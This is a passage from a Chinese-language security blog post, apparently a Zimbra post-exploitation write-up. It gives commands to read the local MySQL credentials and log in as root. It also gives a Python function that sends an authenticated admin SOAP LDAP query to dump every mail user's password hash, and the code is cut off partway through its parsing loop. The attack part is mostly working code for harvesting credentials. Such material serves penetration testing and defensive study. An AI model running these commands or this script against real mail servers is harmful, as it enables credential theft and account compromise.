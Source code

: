 其中包括如下内容：

- zimbraSshPublicKey
- zimbraMemcachedClientServerList
- zimbraSSLCertificate
- zimbraSSLPrivateKey

#### 补充2：连接MySQL数据库的操作

1.获得连接MySQL数据库的用户名和口令：

```
su zimbra
/opt/zimbra/bin/zmlocalconfig -s | grep mysql
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-4-1/5-5.png)

2.连接MySQL数据库：

```
/opt/zimbra/bin/mysql -h 127.0.0.1 -u root -P 7306 -p
```

3.查看所有数据库：

```
show databases;
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-4-1/5-6.png)

综上，如果要查询所有用户的信息，`query`的值可以设置为`"cn=*"`，`ldapSearchBase`的值可以设置为`"ou=people,dc=zimbra,dc=com"`

**注：**

不同环境的`ldapSearchBase`值不同，通常和域名保持一致

通过LDAP查询获得用户名称和对应hash的Python代码如下：

```
def getalluserhash(uri,token,query,ldapSearchBase):
    request_body="""<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope">
       <soap:Header>
           <context xmlns="urn:zimbra">
               <authToken>{token}</authToken>
           </context>
       </soap:Header>
       <soap:Body>
         <GetLDAPEntriesRequest xmlns="urn:zimbraAdmin">
            <query>{query}</query>
            <ldapSearchBase>{ldapSearchBase}</ldapSearchBase>
         </GetLDAPEntriesRequest>
       </soap:Body>
    </soap:Envelope>
    """
    
    try:
      print("[*] Try to get all users' hash")
      r=requests.post(uri+":7071/service/admin/soap",data=request_body.format(token=token,query=query,ldapSearchBase=ldapSearchBase),verify=False,timeout=15)
      if 'userPassword' in r.text:
        pattern_data = re.compile(r"userPass(.*?)objectClass")
        data = pattern_data.findall(r.text)   
        for i in range(len(data)):
          pattern_user = re.compile(r"mail\">(.*?)<")
          user = pattern_user.findall(data[i])
```